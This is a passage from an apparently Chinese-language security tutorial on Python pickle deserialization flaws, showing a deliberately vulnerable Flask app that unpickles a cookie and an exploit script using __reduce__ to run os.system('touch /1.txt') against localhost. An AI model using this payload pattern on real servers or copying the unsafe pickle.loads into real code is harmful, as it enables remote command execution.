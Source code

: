 

## 0x03 漏洞案例

案例一: 以P神搭建的环境为例
```
import pickle
import base64
from flask import Flask, request

app = Flask(__name__)

@app.route("/")
def index():
    try:
        user = base64.b64decode(request.cookies.get('user'))
        user = pickle.loads(user)
        username = user["username"]
    except:
        username = "Guest"

    return "Hello %s" % username

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

命令执行

```
*import*pickle
*import*os
*import*base64
*import*requests

*class*eval_code(object):

    *def*__reduce__(self):
        *return*(os.system,(*'touch /1.txt'*,))


eval_whoami = eval_code()
shadow = base64.b64encode(pickle.dumps(eval_whoami))

*print*([pickle.dumps(eval_whoami)])
*print*(shadow)

mess = requests.get(*"http://127.0.0.1"*, cookies=dict(user=shadow))
*print*(mess.content)


```
